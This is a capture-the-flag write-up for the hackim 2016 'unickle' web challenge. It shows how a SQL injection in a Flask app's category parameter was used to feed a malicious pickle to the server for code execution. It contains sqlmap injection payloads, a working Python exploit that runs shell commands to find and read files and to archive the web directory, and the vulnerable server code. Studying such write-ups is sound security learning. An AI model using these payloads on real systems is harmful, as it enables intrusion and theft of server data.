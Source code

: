 ```yaml
---
layout: post
title:  "hackim 2016: unickle (web 200)"
author: f0rki
categories: writeup
tags: [cat/web, lang/sql]
---
```


* **Category:** web
* **Points:** 200
* **Description:**

> OSaaS is the new trend for 2016! Store your object directly in the cloud. Get
> rid of the hassle of managing your own storage for object with Osaas. Unickle
> currently offers a beta version that demonstrates how OSaaS will make the
> internet a better place... One object at a time!!

## Write-up

So there isn't much to look at here. It displays some values and you can
restrict the displayed values to a category with the `?cat=X` parameter. After
some fiddling and not getting anywhere I decided to let `sqlmap` loose on the
site.

```
$ python2 sqlmap.py --level=5 --risk=3 --method=get -a \
    -u 'http://54.84.124.93/?cat=2' --output-dir=/tmp/unickle/

sqlmap identified the following injection point(s) with a total of 160 HTTP(s) requests:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=2 AND 7804=7804

    Type: AND/OR time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: cat=2 AND 9875=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: cat=2 UNION ALL SELECT 'qxvqq'||'HuGRpkqXfbsleivzlVQsmTJGEQszicEaMDqmwMEK'||'qbvzq',NULL,NULL,NULL-- -
---

[...]

Table: db_object
[4 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| tcat_id | INTEGER |
| tid     | INTEGER |
| tname   | VARCHAR |
| tvalue  | VARCHAR |
+---------+---------+
```

sqlmap didn't do so well on dumping the actual tables, probably because there
were some non-printable characters in there. At this point I was kind of
annoyed and switched to another challenge. Fortunately a fellow LosFuzzys
member didn't want to realy on sqlmap and did the injection by hand, which
yielded better results. One can abuse the SQL injection by using `?cat=4 union
select ...` as the parameter. We can get the table schema of the `db_object`
table.  This is the table the objects, which are displayed, are selected from.
Let's look at one row of the database.

```
id | name     | value                                                               | cat_id
--------------------------------------------------------------------------------------------
2  | Object 2 | cvulnerableBoxq)q}qXnameqX        Magic Boxqsb. | 2
```

We can see that value has a very strange format and doesn't quite match what we
see as output. So there is apparently some transformation happeing. It turns
out that this is [pickled](https://docs.python.org/2/library/pickle.html) data.
Of course as we know from countless other CTFs, pickle is evil, as it allows
arbitrary code execution as part of the deserialization. So we can use the SQL
injection to get the application to load our input with pickle, which gives us
code execution on the server :) Kindly enough we also get the deserialized
object as string, so we can use `subprocess.check_output` to get the output of
arbitrary commands. I used the following script to exploit the sqli/pickle
vulnerabilities. I used several shellcodes. First using a simple computation to
prove we have code execution. Then I searched for the flag using the `find`
command and read it out using `cat`. I also dumped the whole `/var/www/`
directory just to be sure ;)


```python
from __future__ import print_function

import requests
import sys
import pickle
from urllib import unquote

# test shellcode
#SHELLCODE = "42 + 1"
# fetch the whole webserver dir :)
#SHELLCODE = "str(__import__(\"subprocess\").check_output(\"tar czf /tmp/src.tgz /var/www/; cat /tmp/src.tgz | base64\", shell=True))"  # NOQA
# find the flag
#SHELLCODE = "str(__import__(\"subprocess\").check_output(\"find / -name flag\", shell=True))"  # NOQA
# read the flag
SHELLCODE = "str(__import__(\"subprocess\").check_output(\"cat /var/www/flag\", shell=True))"  # NOQA


class Pwn(object):
    def __reduce__(self):
        return (eval, (SHELLCODE,))


pwn = Pwn()
sc = pickle.dumps(pwn)

if len(sys.argv) == 2 and sys.argv[1] == "--try":
    print("Executing shellcode:")
    print("-------")
    try:
        print(pickle.loads(sc))
    except Exception as e:
        print("exception", repr(e))
    print("\n-------")


print("Sending shellcode:")
print("-------")
print(sc)
print("-------")
sc = sc.replace("'", "\"")  # otherwise the sql query doesn't work
sqlipl = "4 union select 1,2,'{}',1337".format(sc)
print("#### sqli payload is")
print(sqlipl)
resp = requests.get("http://54.84.124.93/", params={"cat": sqlipl})
print("#### URL is")
print(resp.url)
print(unquote(resp.url))
print("#### response -", resp.status_code)
#print(resp.text)
# very dirty parsing ;)
print(resp.text.split("\n")[38].replace("\\n", "\n").strip())
```

The flag was `flag{OSaaS_with_union_and_tickle_trend_it_is!}`

The whole thing was a flask application and the vulnerable code is this:

```python
@application.route("/", methods=['GET'])
def index():
  sql = "SELECT * FROM db_object"
  if request.args != [] and request.args.get('cat') != None:
    sql = "SELECT * FROM db_object where cat_id="+request.args.get('cat')  # SQL injection here
  result = db.engine.execute(sql)
  objects = []
  for row in result:
    val = row[2]
    if row[2]!= None:
      try:
        print(row[2])
        val = pickle.loads(row[2].encode(encoding='ISO-8859-1'))           # pickle deserialization vulnerability here
      except Exception as e:
        val = e
    objects.append([row[0],row[1],val,row[3]])
  return render_template('index.html', objects=objects)
```
